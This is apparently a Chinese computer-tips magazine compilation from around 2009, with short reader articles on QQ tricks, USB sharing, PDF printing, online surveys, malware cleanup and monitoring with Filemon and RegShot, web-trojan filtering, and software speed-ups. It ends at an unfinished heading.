> 这里的换肤，主要是替换软件的背景图，与主题并不太一样。主题包括了背景图片，另外还包括窗口、按钮、字体等的风格。

## 一键隐藏QQ

老板站到了你的身后，你的QQ还在闪啊闪，那是多么尴尬的一件事。QQ隐藏器（下载地址：http://www.onlinedown.net/soft/73670.htm）可以解决这方面的烦恼。安装后启动（安装过程中注意取消其中的插件选项），随时按Ctrl+Q键即可彻底隐藏QQ，再次Ctrl+Q键又会显示。

有些人不放心第三方软件，其实QQ自身的隐藏功能基本上也够使用了：在QQ面板上点击“主菜单→系统设置→基本设置→常规”，取消“在任务栏通知区域显示QQ图标”项。这样在QQ自动隐藏后，也能做到无影无踪了。

# 新片快递员，移动硬盘内网自动共享

牛牛自从在家里安装了下载机后，他就成了单位的“新片快递员”，每有新片下载，都要带到单位与大家共享。不过USB移动硬盘借来借去很麻烦，设置共享的话，因为大家使用不同系统（如Windows XP/Vista/7，Linux等），经常会发生无法访问共享的情况。还好，USB over Network帮他解决了这个难题，它可以轻松快捷地共享USB磁盘。

首先根据自己所使用的操作系统从http://www.usb-over-network.com/downloads.html下载对应版本的USB over Network（本例使用的是Windows版，还可到http://www.hanzify.org/index.php?Go=Show::List&ID=12640下载相应的汉化版）。
USB over Network有服务器端和客户端，可以在Windows XP、Windows 7、Linux等系统下运行。牛牛首先在自己的系统中安装了服务器版，并进行如下设置：插入USB移动硬盘后运行服务器端，在

列表中选中需要共享的闪盘（见图），单击“USB Devices→Share”（USB设备→共享），此时闪盘图标前会自动添加上红点标记。如果需要共享的USB设备较多，可以在列表中右击闪盘选择“属性”，为共享的设备添加一个易于辨认的标记。需要注意的是，本机闪盘被共享后就无法访问了，需要关闭共享才能打开闪盘。

其他想要从牛牛移动硬盘上拷贝电影的同事，只要安装USB over Network客户端，并进行如下设置：运行客户端，单击“USB Devices→Add”（USB设备→添加），按提示添加服务器端电脑（即牛牛的电脑）的IP（如：192.168.1.100，端口使用默认设置）。返回客户端界面后单击“USB Devices→Connect”（USB设备→连接），这样在本机就会出现插入闪盘提示，效果就像是闪盘插在自己电脑上一样。此时就可以随意读写文件了。其实不只是局域网内，任意两台直接挂在因特网上的电脑，都可以使用以上方法快速共享USB磁盘，够方便的吧。

(文/俞木发)



# 在线文档，随处打印不变形

现在有越来越多的东西要求在线打印，比如简历、准考证等。这样可以确保打印文档统一规范。不过有些人家里并没有打印机，而要去打印店里面打印，要么打印店不能上网，要么在线打印的收费很贵。怎么办？实际上我们可以将在线文档固化为PDF文件，这样再拿文件到任何地方打印，也不用担心文档格式变形了。

网上有不少在线生成PDF的网站，比如PDF converter (http://www.freepdfconvert.com/)，打开它的首页后，在Source file（源文件）下，单选URL项，输入要打印的在线网页地址，再点击Convert Your File（转换文件）按钮，完成转换后，单击Download Your File（下载文件），将下存的PDF文件拿到打印店直接打印就可以了。
另外，也可以通过软件将在线网页转换成PDF，比如pdfFactory（下载地址：http://www.newhua.com/soft/3353.htm），下载安装pdfFactory Pro后，会自动在“打印机和传真”里添加一个虚拟打印机（见图1）。接下来进入需要在线打印的网址，点击网页上的打印按钮（或者在浏览器上选择“文件→打印”），在弹出的打印对话框中，选择pdfFactory Pro打印机（见图2），再点击“打印”按钮，即可将当前需要打印的内容转化为PDF文档保存了。

> 小提示：
> ★如果系统中安装有Adobe Acrobat，那么打开Word 2007（或其他Office组件）时，会看到多出来的Acrobat菜单，点选之后，可以选择将当前文档转换成PDF文档。另外也可以使用Office 2007自带的虚拟打印机，打印Office文档时，打印机选择Microsoft XPS Document Writer，生成XPS文档。PDF和XPS，都可以起到固定文档格式的作用，以防止文档在其他计算机上输出打印时变形。
> ★12款在线PDF工具，包括转换本机文档、转换在线网页、在线编辑PDF文档等，功能丰富。详情请浏览：http://blog.cfan.com.cn/index.php/11702/viewspace-1640688。
(四川/陈传节)


# 你的心情现在还好吗——在线调查轻松报

调查问卷是非常有用的工具，大到国计民生社会经济，小到个人喜好疑难决策，很多时候都能通过调查问卷找到坚实的数据基础。网络时代，我们不用再到大街上四处散发问卷，只需通过网页就可以在线搞定。比如在自己的博客上对网友们的健康做个小调查。

# 谷歌文档协助，快速制作调查表

第一步：打开http://docs.google.com，并用自己的谷歌账户登录。单击左上角“新建”，选择“Form”，打开调查问卷创建向导页面，按提示输入问卷的标题以及说明，再删除原来默认的问题（见图1）。单击上方的“主题Plain”还可以为调查问卷选择酷酷的背景，选定背景后单击“应用”按钮返回。



第二步：单击“添加项目→文本”，在问题标题中输入“姓名”，问题类型已设定为“文本”，在此还可以修改。另外勾选“将其设置为必要问题”项，然后单击“完成”生成一个可填写姓名的文本框（见图2）。将光标移动到该项的右侧会出现功能按钮，可以对其进行修改、复制或删除等操作。



第三步：单击“添加项目→多重选择”，这可以为问题设置多个答案供答卷者选择。按提示输入问题标题、帮助文本，然后在下方依次输入不同的答案，再单击“完成”按钮添加选择题效果。如果是选择“添加项目→复选框”，则可以制作出多选题（见图3）。如果是选择“添加项目→从列表选择”，则可以制作出下拉列表效果。另外还有“比例”、“多段文本”等多种题型。

第四步：完成所有问题的制作后，单击“保存”按钮保存调查表，然后单击“用电子邮件发送此表单”，在“收件人”中输入被调查者的电子信箱，再单击“发送”按钮发送调查表就可以啦。

> 小提示：把调查问卷嵌入网页或博客

不少人有自己的博客（或者网站），如果在自己的博客上放上这么一个调查表进行在线调查，就可以了解访问你博客的网友们的各种情况了。也可以进一步提升博客的人气。将以上制作的调查表嵌入自己的博客，方法很简单：
点击“更多操作→嵌入”（见图4），将会生成一段代码，将该代码粘贴到自己的个人博客中就可以了。点击“更多操作→编辑确认”，还可输入网友填表后的反馈语言，如谢谢配合调查之类的话。





# 帮帮忙，网友填写调查表

当被调查者收到邮件后，单击里面的链接打开在线表单，根据实际情况完成问卷，最后单击“提交”按钮会出现反馈提示，调查者（也就是你）会收到相应的问卷答案。

# 查看调查结果

当调查结束后，我们可以查看调查结果。进入谷歌文档，单击“所有项目”，再单击“个人健康调查表”可以看到被调查者的答案。单击“共享”可将调查结果发布成网页，或者以电子邮件等形式进行共享。单击“表单”选择“回复摘要”，会以统计图的形式显示调查数据，便于全面掌握调查结果。单击“文件”选择“下载为”，可将统计结果导出为多种格式的文档（如：Excel, PDF等）。

# 网络大补贴：

除了Google文档，现在还有不少专业的网站可以制作调查表，比较典型的有：调查派（http://www.diaochapai.com）、问道（http://www.askform.cn）、问卷星（http://www.sojump.com）等，功能也比较强大，有需要的朋友可以去看看。
（江苏/周建峰）

# 不入虎穴得虎子，安全预览链接图片

上网的时候，最怕“好奇害死猫”，看到一些美女链接时，明知道不安全，还是会忍不住点击查看。如果你实在禁受不住诱惑，想要看清楚这些链接后面的图片，除了记得安装常规杀毒软件外，最好还要请些另类的安全“高手”。

使用Firefox 3.0浏览器的朋友，可以打开https://addons.mozilla.org/zh-CN/firefox/addon/6499，点击“添加到Firefox”按钮安装Unlinker插件。安装后重启Firefox，浏览网页时，右击网页空白处，选择“Unlinker”项，即可在当前页预览到链接所指向的图片，达到无需点击打开具有风险的网页而又能看图的效果。



使用IE的朋友，可以自己动手编制安全脚本实现以上功能。以IE7为例，在IE7安装目录“C:\Program Files\IEPro\userscripts”中，新建名为unlinker.ieuser.js的脚本文件，具体内容可参考http://work.newhua.com/cfan/200923/ieunliker.rar。
启动IE浏览器，点击右下角IE7Pro图标打开设置窗口，切换到“用户脚本”标签页，点击“重新加载所有脚本”，再勾选“On demand image unlinker”选项，点击“确定”（见图1）后重启浏览器。

以后，在遇到链接指向图片的网页中，只需右击IE浏览器右下角的IE7Pro图标，依次选择“用户脚本命令→Unlinker Images”（见图2），这样当前页面就会弹出确定框，点击“确定”即可一一显示图片了。

> 小提示

如果嫌每次点击“确定”比较麻烦，还可从上述提供的压缩包中，使用其升级版脚本。更新脚本，同样在IE7设置窗口中，进入“用户脚本→重新加载所有脚本”，勾选“Automatic Image Unlinker”项，并同时取消对“On demand image unlinker”项的勾选，确定即可。再打开含有图片链接的页面，该脚本会自动运行显示图片。
（福建/周玲生）



# 电脑异常 卡卡教你六步治百病

大家在使用电脑过程中肯定会遇到各种各样的问题，电脑运行速度变慢、IE主页被修改、开机启动项过多、注册表被病毒修改，病毒处理后还有异常提示……今天，教给大家通过免费的卡卡上网安全助手6.0解决一些电脑常见异常问题的通用方法。

- 第一步：安装并运行“卡卡上网安全助手6”（下载地址：http://tool.ikaka.com/）。点击界面左上方的“常用→在线诊断”，如果扫描出有异常文件，请全选后点击“智能清理”，并按提示完成操作。
- 第二步：点击“常用→扫描流氓软件”，等待扫描完毕后，全选查到的所有条目，点击“立即清除”按钮进行清理；然后仍然点击“常用→查杀流行木马→开始扫描”按钮，如扫描到木马病毒文件，请全部选中后点击“立即查杀”来处理。
- 第三步：依次单击“常用→电脑使用痕迹清理”， “全选”所有条目，再点击“清理”来清理所有系统痕迹；点击“高级工具”选项，点击左边“系统修复”，将状态显示为“异常”的项目选中后点“修复”按钮修复所有选项。
- 第四步：依次单击“高级工具→垃圾文件清理”，点击“全选”的勾选框，再点击“开始扫描”，当扫描完成后，点击“开始清理”清理所有项目即可（可能有些文件的清除标志提示是“失败”，正常，不用再做操作）。
- 第五步：依次单击“高级工具→LSP修复”，将状态显示为“异常”的项目选中后点“修复”按钮修复所有选项（如无需修复的则不用再做操作，这步操作一般用来解决电脑由于病毒或异常关机导致的无法正常上网的问题）。
- 第六步：关闭卡卡上网安全助手，打开并升级机器上装的杀毒软件产品至最新版，完成后重新启动计算机。然后再重新打开卡卡上网安全助手，直接点击“常用”栏目中最下方的“一键搞定”功能，根据提示点“下一步”直到提示完成，此功能会对流行木马、流氓软件、恶意修改的系统注册表项目进行二次清理以保证之前操作的效果。

# 小提示：

如果管理启动项只需依次单击“高级工具→启动项管理”进行操作，在完成所有操作后，为了进一步加固我们的系统，我们还需要利用卡卡上网安全助手打Windows系统漏洞补丁。当然卡卡是可以自动提示我们需要打哪些补丁的，当卡卡出现提示时，我们只要点击修复就OK了。

# 截图有功 底细节不放弃

截图对每个人来说都已经不陌生，尤其是QQ加入了截图功能后，截图更是方便了。这不，电脑高手小李经常要解答朋友们的电脑问题。文字费劲，加个图就舒服多了，QQ上边聊边发，很是高档！不过令他苦恼的是，碰上菜鸟，截图他们都不会看，还要告诉他们是看哪个地方，不过小李后来发现了高招，这么小王让他教他如何进行分卷压缩呢，咱们看看小李如何截图！

# 细节放大 重点突出

小王是菜鸟，截图还要解释，不把关键部分给他放大，他就知道咋回事了。在WinRAR进行分卷压缩的关键部位。如制定分卷大小时，启动仿真放大器（下载地址：http://work.newhua.com/cfan/200912/fdj.rar），软件会自动缩小到任务栏，按下Alt+Z，屏幕上就出现了一个放大镜，移动到需要输入30 MB的地方，滚动鼠标滚轮来改变放大倍数，调整好再用Ctrl+Alt+A调用QQ截图工具进行截图，选择“复制并推出截图”，然后在QQ上发给小王就好了。

# 小提示：

放大镜上的提示信息可以右键单击任务栏图标在设置里取消。小白试验了不少软件，效果都不如仿真放大器好，有一个类似的软件叫兆杰放大镜，简化版比较好用，放大界面是个方框，没有手柄，只是放大倍数调节不够细致。

# 双剑合璧，手动杀毒更彻底

前几天同学的裸奔机不小心中病毒了，上网查了下，按网上说的把病毒常常光顾的注册表和目录都检查了一遍，但电脑使用起来还是有问题……看来还要自己动手，对病毒彻底分析！

# 三尺龙泉剑，匣里无人见

第一步：先找到病毒的文件，很多病毒都会往非系统盘符中写入病毒文件，我们可以在相应的盘符中用CMD命令：dir /ah来查找，如果有属性是隐藏且后缀为EXE的文件，那么它很可能就是病毒。用“attrib -s -r -h 文件名.exe”命令将文件显现出来，拷到虚拟机中就好了。

第二步：得到病毒文件以后，我们需要准备两个很小、很强悍的软件：Filemon（下载地址http://www.newhua.com/soft/8985.htm，可以监视应用程序在磁盘中进行的所有读写操作），RegShot（下载地址http://www.newhua.com/soft/12432.htm，它通过两次抓取注册表而快速地比较出注册表的变化）。

# 危冠切浮云，长剑出天外

第一步：初次运行Filemon时，会开始监视系统当前的文件状态，点击搜索图标，该图标出现红叉，即停止当前监视，再点击“清除已监视的项目”。
第二步：在“选项→过滤/高亮”中设置想要监视的文件，这里以熊猫烧香的病毒程序为例（可以在“选项→字体”中将字体改成自己习惯的大小）。在“包含”项中的名称即为你想要监视的程序：setup.exe，“排除”项填上explorer.exe；“高亮项”可填可不填，是使被监视程序相关的操作都以醒目的颜色显示出来。

第三步：设定好以后，先点击“确定”，再点击工具栏上的“搜索”图标，这时 setup.exe就处在被监视状态了。现在运行RegShot，出现主窗口，点击“摄取[1]”，得到当前（还未运行病毒）注册表信息。下面就该实际动手了。

# 雄剑四五动，彼军为我奔

双击运行病毒后，点击RegShot的“摄取[2]”，再点击“比较[O]”对病毒运行后的注册表进行比较，病毒对注册表的修改在导出的TXT或HTML文档中一目了然！同时，发现Filemon监视界面中出现了很多相关的信息，请求栏中，CREAT是在磁盘中新创建的新文件；SETINFOMATION是对磁盘中原有文件做过更改。现在，病毒做过了些什么都一目了然了，反其道而行之，把病毒改过的都改回来，手动杀毒也就彻底地解决了。

# 小提示：

这里的更改可能是对磁盘中原有文件的感染，也可能是修改系统中一些文件的信息，比如在Windows\system32\drivers\etc\host中添加一些杀毒软件官方网站的地址，就可以屏蔽电脑连接到这些网站，使杀毒软件不能更新升级。

（四川/李户林）

# 图片不够 文字来补

图片刚发过去，小王又问：“听说压缩方式有选择，可以选快一点的，在哪设置啊？”这个问题不用再解释了，截个图就好了，不过还得告诉这个菜鸟是点那个按钮。

第一步：小李先单击压缩方式边上的下拉按钮，然后按下Ctrl+Alt+A，然后划出截图区域，这时注意到下面就出现了编辑工具箱，单击“箭头”按钮，然后在截图区域空白处按下鼠标，拖动出现箭头指向那个下拉按钮。
第二步：单击编辑区域的方框按钮，在箭头起始位置拖出方框，再单击字体按钮，输入要加的注释字：“点这个箭头”，调整好字体大小、颜色后后右键单击选择“复制并退出截图”，再发给小王，他再菜也不会再问如何操作了。

# 小提示：

如果你觉得这样作出的效果不好，而你又是QQ会员，那可以这样操作：用QQ截图后选择“复制并退出截图”，然后复制到一个聊天窗口的发送栏下，单击悬浮的表情编辑按钮，进行高级编辑就好了，边框和字体都容易选择，最后单击“完成”回到发送窗口再保存一下就好了。当然像Snagit和Annotation Pilot这类专业截图软件都提供有丰富的注释功能。

（北京/三丰）

# 网马随处“跑” 手动如何“逃”

黑客挂马的方式，都离不开在正常页面中插入高度和宽度都较小的 iframe 语句。浏览这些被挂马的网站时，电脑就会在用户不觉察的情况下连接到iframe中的恶意网页连接，再进一步通过这些恶意网页上的漏洞在网民电脑下载并运行恶意软件。既然网页也是挂马，那么我们就可以利用网页内容来过滤掉恶意网站。

运行世界之窗浏览器2.0以上版本版本，依次选择“工具→广告过滤→广告过滤设置”。在黑名单过滤里勾选使用黑名单过滤（如果还没勾选），将编写好的规则代码复制（下载地址：http://work.newhua.com/cfan/200912/gzdm.rar）到规则框内，点击左侧“应用”，规则立即生效。访问网站的时候世界之窗匹配到可疑的框架以后会提示“可疑链接已被安全规则过滤”。

对于使用IE的读者来说，禁用一些危险而我们又不常用的服务是很必要的，如Remote Registry（远程修改注册表服务）、Messenger（信使服务）、NetMeeting Remote Desktop Sharing（远程桌面共享）、Telnet。

在开始菜单的运行窗口中，输入services.msc，回车后在右侧的服务名称列表中找到Remote Registry，双击该项，在“服务状态”下点击“停止”，在“启动类型”下选择“已禁用”（关闭其他服务方法一样）。

# 小编物语：

对于像我这样的懒人来说，还是找个相应的软件防御比较轻松：瑞星2009安全套装可以开启相应的网页防挂马功能，使用非IE内核浏览器的读者可以使用金山网盾，而使用IE内核的话，畅游巡警（http://www.sucop.com/）是不错的选择。

# 小提示：

使用Firefox的，可以下载noscript（https://addons.mozilla.org/zh-CN/firefox/addon/722）来防御网页挂马，隐私泄露，跨站脚本攻击等威胁。

（北京/锈剑）

# 减轻包袱 轻装上路 大块头软件加速启动

PhotoShop的启动速度都比较慢，不是配置低，而是PhotoShop启动时加载的插件过多。要解决问题，就要减轻包袱，禁用不必要的插件。无独有偶，Office 2007也有这个毛病，接下来我们就着手解决这两个问题。

## 实例 1 加速 PhotoShop

运行PhotoShop SpeedUp（下载地址: http://work.newhua.com/cfan/200912/psjs.rar），之后就会自动检测电脑中安装PhotoShop的路径，并且能够检测出PhotoShop中所有启动时加载的插件，在不想要的插件上按鼠标右键，然后选择Remove from LIST（从列表中删除），就会将所选的插件从PhotoShop中启动项去除。当将多余的插件都去掉之后，再次启动PhotoShop，会发现启动速度要比以前快上很多。

> **小提示:**

如果再想用那些插件，可以在启动PhotoShop的时候按住Ctrl+Alt+Shift，会弹出一个窗口问是否要删除Adobe Photoshop设置文件，单击“是”按钮，就会对PhotoShop进行复原，原来被禁止的插件都恢复正常了。

## 实例 2 提速 Office 2007

随着Windows 7的到来，我们开始习惯于使用美观的Office 2007了，启动速度虽然慢点，但还可以接受，等等！这个不要勉强嘛，启动慢就加速哦！其实它们启动慢是因为加载项过多。下面以Word 2007为例来说明一下。

启动Word 2007以后单击左上角的圆形图标，在展开的界面中单击“加载项”，在下方有一个“COM加载项”，单击“转到”，把以Microsoft Word打头的选项都去掉，单击“确定”就搞定了，启动速度比2003都快呢！而Office 2007其他组件如Excel的加速方法类似，你这么聪明我就不多说了哦!

> **小提示:**

如果想加速Adobe Reader，就可以使用Adobe Reader加速器（下载地址: http://work.newhua.com/cfan/200912/arjs.zip），在Select Speed-Up Mode（选择启动模式）一栏中分别选择SpeedUp-Fast（快速启动）或SpeedUp-Turbo（极速启动）。完成后单击Start→Finish（开始→完成）完成加速。要恢复的话只需在Adobe Reader加速主界面中选择Restore Original Configuration（恢复原始配置）选项，单击Start（开始）即可恢复正常。

# 眼睛一闭一睁 表情就打出来了hang~

聊天时，活泼、有朝气的各种表情图片往往让谈话变得很开心。表情的获取方法呢也有很多，QQ表情添加、吐司专家等都不错，但我觉得这些都是单独去做表情，最方便的就是在聊天时，随着自己聊天内容的变化，自动给我弹出当时合适的表情。没想到“酷客表情输入法”就能实现这个想法，它眼睛一闭一睁之间，表情想发就发。

安装完“酷客表情输入法”（下载地址: http://www.facecooker.com/），软件会自动加入系统自启动程序，同时桌面上出现了一个浮动图标，现在像往常一样打开聊天窗口，输入一个“哈哈”，这时聊天窗口上方出现了表情选择框，都是微笑的表情。

哦！看上去第5个不错（可以按Alt+方向键进行翻页选择），按“Alt+5”，大笑的表情就出现在聊天窗口中了。着实方便不少哦！不想开启这个功能时，按“Alt+F”就可以让“酷客表情输入法”的眼睛闭上了，安心输入文字吧！

看到这里，你或许明白了软件其实是监控输入的字与表情的标签进行自动匹配，我们自然可以自定义输入什么关键字时显示某个表情：单击悬浮框上的笑脸表情，在弹出的表情列表中右键单击一个表情，选择“自定义表情”，输入自己的标签后单击添加就可以了。

# 铁打营盘流水兵 过时技巧你还在用吗

新旧更替是自然界发展的动力，这在IT领域也是如此，小范围来说呢，我们用的技巧也在不断地更换着。在《伪技巧曝光台》栏目中我们就介绍过一些过时的伪技巧，它们混在还管用的技巧里很难分辨，但同时也有一些技巧虽然还管用，算不上伪技巧，但已经过时，我们怎能继续用呢？而如果不用，我们又能用什么呢？下面小编就为大家准备了一些例子。

## 强行使用软件“外传”

在Windows Vista系统刚刚发布时，一些软件和它的兼容性不是很好，而为了尝鲜一些人就发现了解决兼容性问题的方法。很多方法都是不错的，不过其中关于输入法的解决方法就出了问题，起初拼音加加、紫光等拼音输入法不能在新的Windows Vista系统下运行，有人就写文章称，是由于IE 7保护模式造成的，IE保护模式依赖于UAC、UIPI和MIC的作用，所以大概可以认为是UAC、UIPI或者MIC的安全功能导致了不兼容问题。并给出一个解决方法：在注册表[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System]分支下新建DWORD键值EnableUIPI，并将其设置为0来强行禁止UIPI。但实际实现，这个方法完全不管用。而现在这个问题已经不用担心，软件都已经升级换代，早就解决了兼容性问题。

## 搜索加速新旧招

- 按F3调出“搜索助理”后，点击“所有文件和文件夹”，点击“更多高级选项”，取消对“搜索系统文件夹”和“搜索隐藏的文件和文件夹”的勾选，然后再禁止Windows对压缩文件的搜索：在开始菜单的“运行”窗口中输入regsvr32 /u zipfldr.dll，单击“确定”，重启后设置生效，这样减少了无谓的搜索，搜索自然加快了。

新 在榨干了Windows搜索功能的所有潜能后发现，原来它是扶不起的阿斗，再怎么折腾也只是略微提高，现在我们都换用everything（下载地址: http://xbeta.info/everything/download.htm），不用做设置即可实现快速搜索。

**小提示：**

我们还可以在系统搜索助理中依次单击“改变首选项→使用制作索引服务”，来启动索引功能。另外，在Windows Vista中，还有另外的一些技巧。启用自然语言搜索：开启的方法是：依次单击“开始→控制面板→外观和个性化→文件夹选项→搜索”，然后在搜索方式中勾选“使用自然语言搜索”，最后单击“确定”按钮即可。

## 禁用QQ“损招”小PK

本来QQ是个好玩的软件，但这东西却也招人烦，就是谁上谁就聊个没完。在公用电脑上尤其如此，于是大家就想出了各种招来禁用QQ登录。当年好多人都这么做：

1. 修改文件属性：进入QQ安装目录后，将QQ目录文件属性设置为“只读”选项，再选择“将更改应用于该文件夹、子文件夹和文件”，这样当QQ运行时，无法正常加载安装目录下的LoginUinList.dat文件（它用来存储着账户信息），并且QQ登录过程中也无法把一些信息写入安装目录下的相关文件，QQ就被锁定在“正在登录”窗口而无法登录。
2. 上面的方法是禁用所有QQ，自己用的时候呢才把目录属性改回来即可，着实有些麻烦。一些人又想到了新的方式，只限制某一个QQ号。步骤呢相对复杂。

第一步：登录一个QQ号码，在QQ目录里找到该号码目录下的MsgEx.db文件，并复制它。

第二步：在QQ目录下新建一个文件夹，文件名修改为要限制登录的QQ号码，例如123456，把MsgEx.db文件粘贴到123456文件夹下。这样123456这个QQ号就无法在电脑上登录了。

新 在第一种方法中是利用了QQ的登录机制，但现在QQ更新到2009版，已经没有了LoginUinList.dat文件，自然这个方法也已经不管用。而且QQ目录已经默认是只读了。而第二种方法依靠的是保存密码和登录信息的MsgEx.db文件，当目录下已经存在这个文件，但密码信息不对应时，QQ就无法登录了。但可惜的是现在的QQ2009也已经没有了MsgEx.db文件，改成了Msg2.0.db文件。做法呢依然类似，不过这种老是跟着别人走的方法不太好，我们还是靠另外的方法来做比较好。

**小提示：**

还有一种名为QQ锁的软件，号称专门为禁止QQ号码登录，而现在实际运行后，无论是否添加到允许号码中，QQ都已无法登录。

## Live Messenger 艰难换肤计

虽然同为即时通讯软件，Windows Live Messenger一直都以低调著称，一些好玩的功能都没有加入。就拿更换皮肤来说吧！QQ已经玩得很自在，Windows Live Messenger一直都是个麻烦事。以前，我们会采用更换文件的方式：事先将一张GIF格式的图片准备好，大小和长宽要与Windows Live Messenger软件界面匹配，并命名为lvback.gif，复制到Windows Live Messenger的安装目录。再次登录时，软件界面就以该GIF图片为背景了。另外，还流行采用专门的皮肤安装程序来替换皮肤，找到相应版本的安装文件进行安装即可。

新 图片更换的方法和皮肤安装的方式都有着很大的弊端，GIF图片很难找到大小和界面匹配的，而不匹配又影响美观。皮肤安装方式都是个人制作，现在找相应的版本都已经很难了。剩下的我们能用的就是MSNshell（http://www.msnshell.net/）。

关闭Windows Live Messenger，安装MSNshell后重启Windows Live Messenger，在选项菜单下依次单击“shell→更好皮肤→下载更多皮肤”，进入皮肤下载页面（仅支持IE），然后下载完皮肤并进行安装。然后再通过“shell→更好皮肤→管理皮肤→添加”，选择下载的皮肤，单击“确定”重启Windows Live Messenger就可以看到新的皮肤了。

# 别把软件“收藏夹”当鸡肋

我们都知道，浏览器都有“收藏夹”功能，用于收藏常用的网址，便于用户浏览网页，但你是否也知道，许多软件也有“收藏夹”功能呢？用好这些软件的收藏夹，你会觉得非常方便。

# WinRAR

从网上下载的软件一般都放置于某个特定的文件夹下，解压这些文件时，不必进入该文件夹，直接运行WinRAR，然后从WinRAR的“收藏夹”中来解压这些文件。运行WinRAR，依次单击“收藏夹→整理收藏夹”，弹出“整理收藏夹”窗口，单击“添加”按钮，指定专门用于存放压缩文件的文件夹，单击“确定”，然后关闭“整理收藏夹”窗口，再单击“收藏夹”，就可以看到添加的文件夹了，单击即可直接进入这个文件夹。

# 注册表编辑器

注册表的子项非常多，但经常访问的一般就那么几个，一一展开分支再埋头寻找一定很累人，可以把这些子项添加到收藏夹当中。运行Win+R，输入Regedit后“确定”，打开注册表编辑器，找到自己常用的分支后，依次单击“收藏夹→添加到收藏夹”，起个名称后单击“确定”即可。需要打开这个分支的话，再依次单击“收藏夹→分支名称”即可。

# 迅雷

如果经常用迅雷下载FTP资源，不妨把常用的FTP地址添加到迅雷的“收藏夹”当中。运行迅雷后，依次单击“工具→FTP探测器”，打开“收藏夹”窗口，然后单击“新建”，输入资源站点名称、地址以及用户名和密码后单击“确定”即可收藏。以后需要使用收藏的FTP资源，打开收藏夹，双击某个站点名称，即可打开相应的资源了。

# PPLive网络电视

PPLive提供的电视资源相当多，把自己常看的频道加入到自己的收藏夹中，收看起来就方便多了。依次单击“收藏→管理收藏夹”，弹出“PPLive管理收藏夹”窗口，单击“新建文件夹”按钮，输入文件夹名称，然后单击“显示频道”，选中右侧“频道”列表中的某个频道后，单击“加入”即可收藏。以后需要观看收藏的节目，依次单击“收藏→自己的文件夹”，从中找到自己收藏的频道，单击开始播放。（江苏/曹春华）

# 变脸，你玩了吗

劳累一天，回到家里是不是想彻底换个活法呢？打开笔记本电脑，如果面对的还是那个桌面，还是那些快捷方式，多不爽啊。我们只希望看到满眼的美女和游戏图标，桌面要是能在这两者之间快速转换，像“变脸”一样就好了。不妨试试“意天多桌面专家”这款软件，工作娱乐两种天地，只需一键切换。安装并运行“意天多桌面专家”（下载地址：http://www.newhua.com/soft/67209.htm），双击任务栏图标，在弹出的主界面中会发现在默认状态下有四个虚拟桌面，其中一个是真实的桌面，另外三个是虚拟桌面。最多可以建立9个桌面，可以根据自己的实际情况来选择具体的虚拟桌面数量。先用鼠标点击一个虚拟桌面，然后设定工作状态下的快捷方式和打开的程序，都设定好之后，点击“保存设置”按钮，就会将当前虚拟桌面布局进行保存。用同样的方法，还可以建立一个虚拟桌面，根据在家中需要设置相对应的桌面布局。以后在家的时候，就可以按快捷键切换到娱乐休闲的虚拟桌面，里面只有跟娱乐相关的程序。而回到单位，就可以切换到工作的虚拟桌面，而没有跟娱乐相关的程序，就可以专心进行工作。（文/闫皓）

# 我家门前养只小狗狗 病毒、木马不敢进

随着目前网上各种木马、流氓软件的屡杀不尽，电脑软件的不断安装导致系统变慢，广告网页不停弹出……这些问题可能仅凭杀毒软件是不能完全解决的，但也不能整天看着这些病毒、木马来来回回出入我电脑啊，“这走城门呢？”于是我想到养一条“大狼狗”看门吧！这狗还有一个好名字，WinPatrol（看门狗，下载地址：http://www.duote.com/soft/6911.html）。

# 防御木马侵害

Winpatrol这个看门狗和360安全卫士很大的不同就是，Winpatrol能够帮你把病毒给杀掉，下面我们通过一个病毒（Dropper.Win32.Undef.gh，安德夫木马释放器）来看看这条狗的本事。第一步：病毒运行以后，听见Winpatrol“汪汪”叫了一声，提示有新启动项创建，点击“否”。接下来Winpatrol弹出病毒添加启动项的窗口，并显示出病毒的路径和病毒文件名称，可以看到病毒已经在Windows下释放病毒文件了，点击“否”。第二步：Winpatrol继续提示病毒正在创建系统服务，这里会看到Winpatrol提示该服务不含有公司名称等信息，点击“否”。病毒已经运行了，但病毒功能基本上都被Winpatrol禁用了。但病毒文件还在系统中，接下来就是使用Winpatrol进行手动杀毒了。第三步：首先点击“活动任务”选项卡，按照“公司”签名看到了病毒进程正在执行，右键点击病毒进程选择“重启后删除”。再点击“最近→公司”看到最上方显示的就是该病毒释放出的病毒文件，选中该文件“重启后删除文件”。现在所有的工作都完成了，重启电脑，病毒就拜拜了！（北京/威子）

# 嗅出电脑异常

单击“最近”选项卡，软件就给出了系统近期运行过的文件，哪怕是DLL文件也都列了出来，病毒文件都会在这里了。再单击“公司”，开头显示的就变成了那些没识别出开发公司的文件。看到可疑的，右键单击选择“WinPatrol日志”就可以看到具体的评价结果，如果是正常的就可以不动，反之选择“重启后删除文件”吧。再来看下别的修改，单击“文件类型”就可以看到程序和文件的对应关系，一旦文件后面跟的是可疑程序，那就赶紧修改，别再运行这类文件了。

# 音乐无罪 玩在线游戏不再卡

闲暇时，自己喜欢一边在线收听或是下载音乐，一边玩游戏，可久而久之发现这样一个问题，玩本地硬盘中的游戏，还不是很卡，一旦玩在线游戏，如果同时打开了酷狗2008或是酷我音乐盒的话，游戏玩起来就非常的卡，让人实在无法忍受，本来家里的网速都不是很很快，这该如何是好呢？

# 酷狗2008篇

首先右键单击托盘中的酷狗2008程序图标，在弹出的快捷菜单中选择“选项”命令，此时会打开“选项”窗口，单击左侧的“网络设置”标签页，然后在右侧将“最小化时节省带宽（游戏不再卡）”该复选框勾选，并将上方的“下载带宽”和“上传带宽”分别设定为90KB/S和40KB/S数值（这里大家也可根据自己家中的实际带宽大小进行适当设置），以上设置都完成之后，点击“确定”按钮保存退出便可以了。

# 酷我音乐盒篇

打开酷我音乐盒主界面，首先单击右上方的“设置”按钮，在弹出的快捷菜单中选择“选项设置”命令，此时会出现“酷我配置”窗口，然后单击左侧的“下载”选项卡，接着在右侧对话框中把“最大同时下载任务数”设置为“1”，这样能尽可能节省酷我音乐盒下载音乐时所占用的带宽资源，让网络游戏流畅运行，最后单击“确定”按钮退出就行了。需要指出的是，利用这种方法，我们也可以在搜狗音乐盒中进行同样的设置，需要的朋友，不妨一试。（武汉/王勇）

# 谁说GIF大小不能改

